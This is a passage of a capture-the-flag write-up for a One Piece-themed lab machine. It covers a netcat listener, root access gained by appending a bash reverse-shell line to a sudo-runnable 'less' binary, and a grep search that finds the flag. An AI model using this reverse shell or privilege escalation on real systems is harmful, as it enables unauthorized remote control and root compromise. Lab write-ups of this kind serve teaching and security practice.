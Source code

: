 > 📝**Note:**
> The less command is used to view the contents of text files in the terminal. It allows you to scroll forward and backward through the file easily without opening it in a full editor

Start listener:
```console
nc -lnvp 4444           
listening on [any] 4444 ...
connect to [10.8.128.221] from (UNKNOWN) [10.10.43.235] 49286
```
To become `root`, we simply overwrite or append our bash script to `/usr/local/bin/less`
```console
$ echo 'bash -i >& /dev/tcp/10.8.128.221/4444 0>&1' >> /usr/local/bin/less
$ sudo /usr/local/bin/less
```
Now that we’ve become root, our final task is to find the One Piece! To do it quickly, instead of searching manually, we’ll try using short and efficient commands.
```console
grep -iRl "One Piece" /home /usr 2>/dev/null
```

```console
/root# grep -iRl "One Piece" /home /usr 2>/dev/null
grep -iRl "One Piece" /home /usr 2>/dev/null
/home/teach/luffy_vs_teach.txt
/home/luffy/laugh_tale.txt
/usr/src/linux-hwe-5.4-headers-5.4.0-42/include/linux/scatterlist.h
/usr/src/linux-hwe-5.4-headers-5.4.0-42/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-hwe-5.4-headers-5.4.0-42/mm/Kconfig
/usr/src/linux-headers-4.15.0-041500/include/linux/scatterlist.h
/usr/src/linux-headers-4.15.0-041500/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-headers-4.15.0-041500/mm/Kconfig
/usr/src/linux-headers-4.15.0-041500-generic/include/linux/scatterlist.h
/usr/src/linux-headers-4.15.0-041500-generic/arch/mips/include/asm/octeon/cvmx-pow.h
/usr/src/linux-headers-4.15.0-041500-generic/mm/Kconfig
/usr/bin/gomugomunooo_king_kobraaa
/usr/share/perl/5.26.1/Archive/Tar.pm
/usr/share/perl/5.26/Archive/Tar.pm
/usr/share/libreoffice/help/en-US/scalc.jar
/usr/share/mysterious/on3_p1ec3.txt 
```
> **Q: What is the One Piece?**
```console
/root# cat /usr/share/mysterious/on3_p1ec3.txt
cat /usr/share/mysterious/on3_p1ec3.txt
One Piece: S3cr3ts[REDACTED]_P@st$
```

![Luffy](gif_luffy.webp){: width="800" height="150" .shadow }
